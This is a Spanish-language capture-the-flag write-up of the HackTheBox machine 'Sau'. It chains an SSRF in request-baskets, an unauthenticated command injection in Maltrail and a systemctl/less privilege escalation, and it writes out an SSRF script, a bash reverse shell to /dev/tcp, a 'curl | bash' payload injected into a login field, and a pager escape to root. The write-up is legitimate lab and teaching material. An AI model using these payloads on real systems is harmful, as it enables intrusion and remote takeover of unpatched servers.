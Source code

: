 ```yaml
---
title: Sau HTB Writeup
published: 2023-04-05
description: 'Abusamos del CVE-2023-27163 para conseguir una shell, luego CVE-2023-26604 para la Escalada de Privilegios.'
image: './img/1.png'
tags: [Easy, Linux]
category: 'HackTheBox'
draft: false 
---
```


Sau es una sencilla máquina Hack the Box basada en Linux creada por sau123 que involucra explotación web, Falsificación de Peticiones del Lado del Servidor (SSRF), Vulnerabilidades y Exposiciones Comunes (CVEs), y explotación de políticas Sudo. Un escaneo de puertos reveló inicialmente un servidor HTTP vulnerable a un error SSRF rastreado como CVE-2023-27163. La vulnerabilidad fue explotada para contactar con un servidor HTTP interno que ejecutaba una versión obsoleta de Mailtrail propensa a la inyección de comandos shell, que utilizamos para establecer un shell inverso como puma. La política sudo para este usuario nos permitió explotar CVE-2023-26604 y obtener ejecución como root.

# Initial Recon

Comenzamos realizando un escaneo completo de puertos TCP utilizando el comando nmap. Este comando escanea de forma rápida y fiable cualquier puerto TCP relevante en el objetivo.

```bash
# Run a thorough port scan
nmap "10.10.11.224" -vv -Pn -sT -sV -n -p- -T4 --min-rate=1000 --max-retries=3
```

El escaneo reportó dos puertos abiertos y dos puertos filtrados:

Aquí está la información en formato de tabla:

| Port  | Service | Product | Version |
|-------|---------|---------|---------|
| 22    | ssh     | OpenSSH | 8.4p1   |
| 80    | HTTP    |         |         |
| 8338  | HTTP    |         |         |
| 55555 | HTTP    |         |         |

Primero navegamos a http://10.10.11.224:55555, que nos redirigió a http://10.10.11.224:55555/web. En esta página observamos un pie de página que indicaba que el sitio funcionaba con la versión 1.2.1 de request-baskets.

Buscamos CVEs que afectaran a esta instalación y encontramos un fallo SSRF, CVE-2023-27163. La página CVEDetails de este fallo proporcionaba una descripción de la vulnerabilidad junto con un enlace a detalles de explotación adicionales.

> request-baskets hasta v1.2.1 se descubrió que contiene una falsificación de solicitud del lado del servidor (SSRF) a través del componente /api/baskets/{name}. Esta vulnerabilidad permite a los atacantes acceder a recursos de red e información confidencial a través de una solicitud de API manipulada.

# Web

## CVE-2023-27163

Según la breve prueba de concepto a la que se hace referencia en la página dedicada a CVEDetails, debe realizarse una solicitud HTTP POST especial a /api/baskets/*{:.filepath} para crear una nueva cesta y establecer una URL de reenvío. Se ha creado un sencillo script de shell para agilizar este proceso.

```bash
#!/usr/bin/env zsh
[ $# -lt 1 ] && echo 'Usage: ./ssrf-curl <URL> [OPTS ...]' && exit 1

echo '{"proxy_response":true,"expand_path":true}' |
  jq -c --arg a "$1" '.forward_url=$a' |
  read json

basket=$(openssl rand -hex 8)
curl -so /dev/null -d "$json" "http://10.10.11.224:55555/api/baskets/${basket}"
curl -s "http://10.10.11.224:55555/${basket}" ${@:2}
```

## Mailtrail

Utilizamos este script para acceder indirectamente al servidor HTTP en el puerto 80, ya que no se puede acceder directamente. Se envió una simple petición HTTP GET para verificar la existencia del servidor HTTP y recopilar información.

```bash
# Test SSRF script
zsh ssrf.zsh http://localhost:80 -i | more
```

```
HTTP/1.1 200 OK
Cache-Control: no-cache
Connection: close
Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
Content-Type: text/html
Date: Thu, 28 Dec 2023 08:44:05 GMT
Last-Modified: Tue, 31 Jan 2023 18:18:07 GMT
Server: Maltrail/0.53
Transfer-Encoding: chunked

<!DOCTYPE html>
...
```

Se encontró una huella digital de software en el encabezado HTTP «Servidor» con el valor «Maltrail/0.53». Hemos buscado en la web vulnerabilidades que afecten a esta versión y hemos encontrado un fallo de inyección de comandos del sistema operativo divulgado aquí.

    >Description

    >Maltrail <= v0.54 is vulnerable to unauthenticated OS command injection during the login process.** Summary

    >[…] An attacker can exploit this vulnerability by injecting arbitrary OS commands into the username parameter. The injected commands will be executed with the privileges of the running process. This vulnerability can be exploited remotely without authentication. Proof of Concept

    > curl ‘http://hostname:8338/login’ —data ‘username=;id > /tmp/bbq’

Parece que la versión instalada puede ser explotada a través del parámetro nombre de usuario en el endpoint de login en http://localhost/login, al que se puede acceder con el script SSRF. Iniciamos una escucha PwnCat y procedimos a ejecutar un simple shell inverso bash descargado a través de HTTP.

```bash
# Start PwnCat listener
lhost="10.10.14.2" # Change to your assigned VPN IP address
pwncat-cs -l $lhost 8443 # Install: `python3 -m pip install pwncat-cs`

# [In another session] Serve reverse shell over HTTP
lhost="10.10.14.2" # Change to your assigned VPN IP address
mkdir ./http-share && echo "bash -i >& /dev/tcp/${lhost}/8443 <&1" > http-share/index.html
http-server ./http-share -p 8080 -a $lhost # Install: `npm install -g http-server`

# [In another session] Trigger command execution
lhost="10.10.14.2" # Change to your assigned VPN IP address
zsh ssrf.zsh http://localhost:80/login -i -d "username=\`curl ${lhost}:8080|bash\`"
```

# Privilege Escalation

Con la ejecución como el usuario puma, Encontramos una política sudo personalizada que nos permite ejecutar un comando en particular como cualquier usuario sin la contraseña de puma.

```bash
# Display sudo policy
sudo -l

Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

## CVE-2023-26604

El comando que podemos ejecutar en un contexto privilegiado es /usr/bin/systemctl status trail.service. Después de buscar en la web vulnerabilidades conocidas en systemd/systemctl, se encontró una CVE de escalada de privilegios bastante reciente rastreada como CVE-2023-26604.

    > systemd before 247 no bloquea adecuadamente la escalada de privilegios local para algunas configuraciones Sudo, por ejemplo, archivos sudoers plausibles en los que se puede ejecutar el comando «systemctl status». Específicamente, systemd no establece LESSSECURE a 1, y por lo tanto otros programas pueden ser lanzados desde el programa less. Esto presenta un riesgo de seguridad sustancial cuando se ejecuta systemctl desde Sudo, porque less se ejecuta como root cuando el tamaño de la terminal es demasiado pequeño para mostrar la salida completa de systemctl.

Comprobamos la versión de systemd y nos dimos cuenta de que estaba instalada la versión vulnerable systemd 245.

```bash
# Check if systemd version is vulnerable
/usr/bin/systemctl --version
```

```bash
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
```
Exploitation

Para explotar la CVE-2023-26604, se bajó la altura del terminal como se describe en la descripción de la CVE, y se ejecutó el comando sudo permitido. Desde el paginador simplemente introdujimos !sh para generar un shell de root.

```bash
# execute systemctl with lower resolution to spawn pager
stty rows 1 && sudo systemctl status trail.service
```

```bash
!sh
```

Root !